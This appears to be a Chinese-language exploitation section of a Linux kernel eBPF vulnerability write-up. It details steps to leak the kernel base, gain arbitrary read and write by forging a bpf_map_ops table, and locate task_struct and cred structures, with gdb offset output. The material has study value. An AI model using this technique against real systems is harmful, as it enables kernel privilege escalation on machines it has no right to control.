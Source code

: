 ## 三、漏洞利用

漏洞利用部分可参考[CVE0-2020-8835利用](https://blog.csdn.net/panhewu9919/article/details/117736484)，利用过程相同，只需修改部分地址，进行适配。

**利用过程**：介绍`bpf_array->value`布置，`value[0]`—触发漏洞的寄存器初始值；`value[1]`—功能选项，0泄露内核基址、1任意读、2泄露`&value[0]`、3任意写；`value[2]`—写入的值。

- （1）创建eBPF代码，载入内核，通过verifier检查；

- （2）泄露内核基址(op=0)：读取`bpf_array->map->ops`指针，位于  `&value[0]-0x110` (eBPF程序中可以获取`&value[0]`，再减去0x110即可)，读出来的地址存放在`value[4]`，用户层调用`bpf_lookup_elem()`即可获取。

  ```bash
  gdb-peda$ p/x &(*(struct bpf_array *)0)->value
  $1 = 0x110
  $ cat /tmp/kallsyms | grep startup_64    # 泄露出来的 bpf_array->map->ops 减去加载地址，获得偏移
  ffffffff81000000 T startup_64
  ```

- （3）`&value[0]+0x80+0x70`处伪造 `bpf_array->map->ops->->map_push_elem`：先任意读(op=1)泄露`bpf_array->map->ops->map_get_next_key`，然后在`&value[0]+0x80`处伪造`bpf_array->map->ops`函数表，将`map_push_elem`替换为`map_get_next_key`，便于之后构造任意写；

  ```bash
  pwndbg> p/x &(*(struct bpf_map_ops*)0)->map_push_elem
  $11 = 0x70
  pwndbg> p/x &(*(struct bpf_map_ops*)0)->map_get_next_key
  $12 = 0x20
  ```

- （4）泄露`&value[0]` (op=2)：便于在`value[]`上伪造假的`bpf_array->map->ops`函数表；读取value[0]的地址，由于 `bpf_array->waitlist` (偏移0xc0)指向自身，所以 `&value[0]= &bpf_array->waitlist + 0x50`，只需读取 `&value[0]-0x110+0xc0` 的值，加上0x50即可，读出来的地址存放在`value[4]`。

  ```bash
  gdb-peda$ p/x &(*(struct bpf_array *)0)->map->freeze_mutex->wait_list
  $4 = 0xc0
  ```

- （5）泄露`task_struct`地址(op=1)：任意地址读，一次只能读4字节，篡改 `bpf_array->map->btf` (偏移0x40)，利用 `bpf_map_get_info_by_fd` 泄露 `map->btf+0x58` 地址处的4字节（将`map->btf`篡改为`target_addr-0x58`即可）；首个`task_struct`地址存放在`init_pid_ns`。

  ```bash
  pwndbg> p/x &(*(struct btf*)0)->id
  $13 = 0x58
  pwndbg> p/x &(*(struct bpf_map_info*)0)->btf_id
  $14 = 0x40
  
  $ cat /proc/kallsyms | grep init_pid_ns
  0xffffffff82663ca0
  $ x /20xg init_pid_ns_addr
  $ p *(struct task_struct*) xxxxxxxx   # 确认 init_pid_ns 的偏移0x38处存放 task_struct 地址（real_cred 和 cred 地址相同），Linux-5.11版本就是0x30
  ```
